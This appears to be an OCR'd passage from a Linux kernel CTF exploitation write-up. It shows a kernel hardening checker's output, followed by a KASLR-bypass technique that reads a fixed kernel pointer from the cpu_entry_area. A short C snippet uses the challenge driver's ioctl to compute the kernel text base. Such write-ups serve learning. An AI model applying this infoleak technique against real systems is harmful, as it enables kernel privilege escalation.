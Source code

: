 ```
AppArmor                                : Enabled (apparmor_init: Found, apparmor_initialized: 1, apparmor_enabled: 1)
TOMOYO                                  : Disabled (tomoyo_init: Found, tomoyo_enabled: 0)
Yama (ptrace_scope)                     : Enabled (yama_init: Found, kernel.yama.ptrace_scope: 1)
Integrity                               : Supported (integrity_iintcache_init: Found)
LoadPin                                 : Unsupported (loadpin_init: Not found)
SafeSetID                               : Supported (safesetid_security_init: Found)
Lockdown                                : Supported (lockdown_lsm_init: Found)
BPF                                     : Supported (bpf_lsm_init: Found)
Landlock                                : Supported (landlock_init: Found)
Linux Kernel Runtime Guard (LKRG)       : Disabled (Not loaded)
----------------------------------------------------------------- Dangerous system call -----------------------------------------------------------------
vm.unprivileged_userfaultfd             : Disabled (vm.unprivileged_userfaultfd: 0)
kernel.unprivileged_bpf_disabled        : Enabled (kernel.unprivileged_bpf_disabled: 2)
kernel.kexec_load_disabled              : Disabled (kernel.kexec_load_disabled: 0)
------------------------------------------------------------------------- Other -------------------------------------------------------------------------
CONFIG_KALLSYMS_ALL                     : Enabled
CONFIG_RANDSTRUCT                       : Disabled
CONFIG_STATIC_USERMODEHELPER            : Disabled (modprobe_path: RW-)
CONFIG_STACKPROTECTOR                   : Enabled (offsetof(task_struct, stack_canary): 0x9c8)
KADR (kallsyms)                         : Enabled (kernel.kptr_restrict: 2, kernel.perf_event_paranoid: 2)
KADR (dmesg)                            : Enabled (kernel.dmesg_restrict: 1)
vm.mmap_min_addr                        : 0x10000
```

What matters for us is mainly the KASLR that is on. Then, the first step will be to defeat it.

## Defeat kASLR

To defeat kASLR we could use the trick already use a while ago by the hxp team in one of their [kernel shellcoding challenge](https://hxp.io/blog/99/hxp-CTF-2022-one_byte-writeup/). The idea would be to read through the `cpu_entry_area` fix-mapped area, that is not rebased by the kASLR, a pointer toward the kernel .text. Then giving us a powerful infoleak thats allows us to find for example the address of the physmap. I just had to search a few minutes the right pointer in gdb and that's it, at `0xfffffe0000002f50` is stored a pointer toward `KERNEL_BASE + 0x1000b59`! Which gives:

```c
    req.kptr = 0xfffffe0000002f50; 
    if (ioctl(fd, 0x1337, &req)) {
        return -1;
    }

    kernel_text =  ((uint64_t* )req.buf)[0] - 0x1000b59;
    printf("[!] kernel .text found at %lx\n", kernel_text);
```

## physmap for the win
